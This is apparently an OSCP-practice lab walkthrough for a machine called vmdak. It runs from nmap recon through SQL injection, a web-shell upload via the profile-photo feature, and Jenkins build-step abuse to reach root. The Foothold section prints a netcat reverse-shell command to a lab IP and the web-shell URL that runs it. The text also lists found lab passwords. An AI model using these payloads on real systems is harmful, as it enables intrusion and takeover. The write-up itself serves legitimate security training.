




**Start 11:33 07-02-2025**

---
```
Scope:
IP_ADDR
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- vmdak -sT --min-rate=5000 -T5

PORT     STATE SERVICE  REASON  VERSION
21/tcp   open  ftp      syn-ack vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            1752 Sep 19 15:01 config.xml
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh      syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:18:f1:19:6b:29:db:da:3d:f6:7b:ab:f4:b5:63:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMeGcI7LXAgYpdcxsbgmDh+FrFwBJxUEPxSU4XODxVs1CWLxFnxl1/SZ0ReciCentljLQxi9LqNYvR//3y6kAms=
|   256 cb:d8:d6:ef:82:77:8a:25:32:08:dd:91:96:8d:ab:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILE9A0DdfM97fpb5q8N9nmI/9/8rqT8ADRWK8KBegxYM
80/tcp   open  http     syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
9443/tcp open  ssl/http syn-ack Apache httpd 2.4.58
| ssl-cert: Subject: commonName=vmdak.local/organizationName=PrisonManagement/stateOrProvinceName=California/countryName=US/organizationalUnitName=PrisonManagement/localityName=San Francisco
| Subject Alternative Name: DNS:vmdak.local
|_http-title:  Home - Prison Management System
```

Starting off with FTP I was able to anon login and get a file.


# 9443/TCP - HTTPS


Looking it up I found a SQLi vulnerability





Nice, let's enumerate the website and see what we can find.

>[!note]
>For persistence we got the creds here:
>


```
RonnyCache001
```

We notice that we can change our profile photo as well


And looking up further exploits online we find [this blog post](https://packetstorm.news/files/id/179737) mentioning using the jpeg upload to upload rev shells.


## Burpsuite

>[!note]
>We will now open up `burpsuite` where we will turn *ON* Intercept so we can modify the Request.

And in Burp we get this Request.



Here we will modify the bottom part to this:



If all went correct we should see the following pop up in our **HTTP history** tab


Let's test out if it worked:


Awesome, let's start modifying the request so we can get a reverse shell.


# Foothold

```bash
# Original payload
busybox nc 192.168.45.228 443 -e bash

# Url encoded
/uploadImage/Profile/cmd.php?cmd=busybox%20nc%20192.168.45.228%20443%20-e%20bash
```


Now that we have RCE we can get to enumerating.


## Enumeration


```
escobar2012
```


## Lateral Movement

I tried out both found creds for the user *vmdak* and the first one worked:


Unfortunately `sudo -l` won't be possible.


### local.txt


# Privilege Escalation

We will start over by downloading over necessary tools.




## LinPEAS

I didn't find anything useful except this line:


We should try port forwarding and see what we can find.


## Ligolo port forward


Now that the port forward has been setup we can access port `8080`.


## 8080/TCP - HTTP (Port Forward)


Since this didn't work I had to look for other means.


## Arbitrary File Read PoC

I searched on Google and found the following:


It worked, awesome. Let's try the file that we need:


Using this password we get through:


Here I created a **New Item** called **test**:


From here we go into **Configuration -> General -> Build Steps** where we will choose **Execute Shell**


We will then click **Build Now** and let it run, after a while we should receive our `root` shell.


>[!fail]
>This threw errors as it couldn't reach me, thus I had to add a listener on Ligolo first.
>


Now it went through the way it should!


### proof.txt


---

**Finished 12:54 07-02-2025**

[^Links]: [[OSCP Prep]]

#Jenkins 
